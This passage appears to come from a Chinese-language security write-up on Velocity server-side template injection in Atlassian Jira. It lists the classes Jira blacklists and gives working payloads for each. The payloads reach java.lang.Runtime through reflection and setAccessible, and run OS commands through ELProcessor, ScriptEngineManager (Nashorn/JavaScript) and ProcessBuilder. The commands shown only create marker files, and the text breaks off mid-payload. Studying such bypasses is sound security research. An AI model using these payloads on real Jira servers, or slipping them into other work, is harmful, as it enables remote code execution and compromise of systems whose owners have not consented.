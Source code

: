 所以当我们使用新生成的类的时候，缓存中只有 Class 类，所以在此情况下只有注入 Object Bean 对象才可以使用调用相应的方法。所以反射的基础知识引出来了，如何通过反射创建新的类事例。1、新 Object 对象的生成在模版注入里面通过类的 newInstance 可以。可惜 Runtime 的构造方法是私有的，只能通过 getRuntime 来获取实例对象。2、所以我们使用 Constructor 来获取构造器，并将访问的属性设置为 true。

```plain
通过反射创建新的类实例的两种方式：

Class.newInstance() 
Constructor.newInstance() 

所以 runtime 类我们可以改写成：
    #set($x=$i18n.getClass())
    #set($runcls=$x.class.forName("java.lang.Runtime"))
    #set($runcon=$runcls.getDeclaredConstructor())
    $runcon.setAccessible(true)
    $runcon.newInstance().exec("touch /tmp/successRt")
```

所以我们可以采用其他的方式进行注入，如 spel，因为 jira 是 tomcat 服务启动的，也可以采用 scriptengine 的方式。  
黑名单类

```plain
webwork.util.ValueStack,\
javax.el.ELProcessor,\
javax.script.ScriptEngineManager,\
java.lang.ProcessBuilder,\
javax.el.ImportHandler,\
javax.el.ELManager
```

这里列举了以上黑名单类在 vm 模版引擎中的利用

模版引擎的基本语法参考  
[https://www.cnblogs.com/daijun/p/6133430.html](https://www.cnblogs.com/daijun/p/6133430.html)

```plain
ELProcessor:
    #set($x=$i18n.getClass())
    #set($el=$x.class.forName("javax.el.ELProcessor").newInstance())
    $el.eval('Runtime.getRuntime().exec("touch /tmp/successELProcessor")')


ScriptEngineManager:
noshorn:
    #set($x=$i18n.getClass())
    #set($semcls=$x.class.forName("javax.script.ScriptEngineManager"))
    #set($sem=$semcls.newInstance())
    $sem.getEngineByName("noshorn").eval("java.lang.Runtime.getRuntime().exec('touch /tmp/successSEM\');")
javascript:
    #set($x=$i18n.getClass())
    #set($semcls=$x.class.forName("javax.script.ScriptEngineManager"))
    #set($sem=$semcls.newInstance())
    $sem.getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('touch /tmp/successSEM\');")


java.lang.ProcessBuilder:
我本来写的第一种方法，但是 newInstance 这里是不存在空的构造方法的。
    #set($x=$i18n.getClass())
    #set($pb=$x.class.forName("java.lang.ProcessBuilder").newInstance())  
    $pb.command("/bin/sh","-c","touch /tmp/successPB")
    $pb.start()

改进之后：
    #set($x=$i18n.getClass())
    #set($list=$x.class.forName("java.util.List"))
```
